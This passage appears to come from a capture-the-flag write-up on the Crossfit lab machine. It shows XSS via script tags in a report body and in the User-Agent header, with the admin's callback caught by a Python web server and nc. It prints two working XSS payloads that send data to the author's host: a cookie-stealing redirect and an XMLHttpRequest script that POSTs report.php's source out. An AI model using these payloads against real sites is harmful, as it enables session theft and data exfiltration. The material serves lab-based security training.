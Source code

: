 If this works, the `<script>` tag in the body will trigger the report, and then the `<script>` tag in the UA string will trigger a request to me from Crossfit. And that is just what I see on a Python webserver a few seconds after sending:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.208 - - [22/Jan/2021 17:36:39] "GET / HTTP/1.1" 200 -

```

I’ll also catch a request with `nc` to see the full headers being used by the admin team:

```

GET / HTTP/1.1
Host: 10.10.14.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Connection: keep-alive

```

The admin team is looking at the report in Firefox. I don’t see any vulnerabilities in that version of Firefox.

### XSS Fails

I first tried to leak a cookie with a payload like:

```

document.location="http://10.10.14.11/?c="+document.cookie;

```

I got a hit on my server, but no cookie:

```
10.10.10.208 - - [22/Jan/2021 17:46:57] "GET /?c= HTTP/1.1" 200 -

```

I also wanted to see what else was in `report.php`, as I’m sure that the person reading this can open it. This JavaScript will query `report.php`, and then when that request is complete, it will create a new request and send the results back to me as a POST (I’ll be using the XMLHttpRequest a good bit, so the [docs](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) come in handy here):

```

var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if(fetch_req.readyState == XMLHttpRequest.DONE) {
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("POST", "http://10.10.14.11:3000", false);
        exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
    }
};
fetch_req.open("GET", "http://gym-club.crossfit.htb/security_threat/report.php", false);
fetch_req.send();

```
